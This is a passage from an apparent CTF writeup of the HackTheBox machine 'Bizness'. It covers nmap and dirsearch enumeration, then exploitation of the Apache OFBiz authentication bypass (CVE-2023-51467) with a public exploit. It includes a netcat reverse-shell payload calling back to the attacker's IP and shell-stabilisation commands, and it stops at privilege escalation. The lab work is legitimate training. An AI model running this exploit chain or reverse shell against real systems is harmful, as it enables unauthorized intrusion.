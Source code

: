 ```yaml
---
title: Bizness
published: 2024-08-05
description: Writeup for an easy labeled linux based HTB machine named Bizness.
# image: ./devvortex/devvortex_pwned.jpg
tags: [HackTheBox, Linux, Machines]
category: Writeups
draft: true
---
```



# <center> BIZNESS </center>


Hello everyone. Let's solve an easy labeled linux based HTB machine named Bizness.

## Initial step (conifguring your local system)

- Download your open vpn configuration file and connect to htb vpn.
    - ```bash
        sudo openvpn <configuratio_file_name>
      ```
- Join the machine to get an IP. (in my case it is 10.10.11.252).
- tasks given:
    - submit user flag (32 hex characters).
    - submit root flag (32 hex characters).

Now we are good to go. we can access the website through our browser. Now let's dive into our actual hacking stuffs 😉. (Disclaimer: By "hacking", I meant <strong><i>ETHICAL</strong> Hacking</i>)

<hr>

## Scanning and Enumeration


- performing agressive nmap scan on the given ip. (-A stands for agressive in below command)
    - ```bash
        nmap -A -T4 10.10.11.252

        Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-30 22:07 IST
        Warning: 10.10.11.252 giving up on port because retransmission cap hit (6).
        Nmap scan report for bizness.htb (10.10.11.252)
        Host is up (0.41s latency).
        Not shown: 954 closed tcp ports (conn-refused), 43 filtered tcp ports (no-response)
        PORT    STATE SERVICE  VERSION
        22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
        | ssh-hostkey: 
        |   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
        |   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
        |_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
        80/tcp  open  http     nginx 1.18.0
        |_http-title: Did not follow redirect to https://bizness.htb/
        443/tcp open  ssl/http nginx 1.18.0
        | tls-alpn: 
        |_  http/1.1
        | ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
        | Not valid before: 2023-12-14T20:03:40
        |_Not valid after:  2328-11-10T20:03:40
        |_http-title: 400 The plain HTTP request was sent to HTTPS port
        | tls-nextprotoneg: 
        |_  http/1.1
        |_http-server-header: nginx/1.18.0
        |_ssl-date: TLS randomness does not represent time
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 112.27 seconds.
        ```

    - from nmap result we can observe SSH service and Ngnix on ports 80 and 443.
    - Also, a web app is running on port 80, but it is not accessible through ip address, so let's add the ip and it's domain name in out local `/etc/hosts` file and now it can be accessed using the ip (10.10.11.252 in my case) or its domain name `bizness.htb`.
    - ```bash
        sudo nano /etc/hosts
        ```
    - ![host file](./bizness/editing_host_file.jpg)


- The website is static. After fuzzing it's input fields we can know that there is no case of parameter injection in the website. So now let's do some enumeration and search some hidden directories.

- performing dirsearch.
    - ```bash
        dirsearch -u https://bizness.htb
        ```
    - ![dirsearch result](./bizness/dirsearch_result.jpg)

## Gaining Initial Access

- the most interesting result I foud was /control/login. (no doubt it's an eye catcher for a hacker 😉). Following the path bizness.htb/control/login took me to an apache ofbiz authentication page. Then I tried fuzzing and bruteforcing some of the passwords for admin user, but it was of no use 😮‍💨.
![ofbiz authentication page](./bizness/ofbiz_authentication_page.jpg)

Then I remembered a statement "Google: A hacker's bestfriend", so immediately I googled some ways to bypass the ofbiz authentication. There I came to know about Apache OFBiz Authentication Bypass Vulnerability (CVE-2023-51467).
- [check this website](https://threatprotect.qualys.com/2023/12/27/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-51467/) to know more about the vulnerability details and exploit analysis.

Luckily I found an exploit on github that triggers <strong>Remote Code Execution (RCE) </strong>. So it's obvious that my next move would be to get a reverse shell using RCE. So I cloned [this Git repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git) to my local system.
- ![clonning exploit repo](./bizness/clone_exploit_repo.jpg)

- <strong>Working on payload</strong>

    - my attacking (tun0) ip: `10.10.14.151` (can be found using ifconfig command)
    - command for netcat reverse shell:
    ```bash
        nc -c bash <ip> <port>
     ```
    - command to execute exploit on remote server:
    ```bash
        python3 exploit.py --url 'URL' --cmd 'CMD'
    ```
    - Final payload:
    ```bash
        python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.151 1234'
    ```
So finally I started my netcat listener on port 1234 with comman d `nc -lnvp 1234` and then executed the final payload in a next tab.
And voilà, We got a reverse shell.....

- ![getting reverse shell](./bizness/getting_rev_shell.jpg)

Let's first stabilize the shell using the following commandd:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Navigating through the file system, we can find the user flag in /home/ofbiz/user.txt file 🫠.

But this is not the  end 🥴. Remember the task, we need to submit the root flag as well. So, lets do some vertical previlege escalation.

## Previlege Escalation

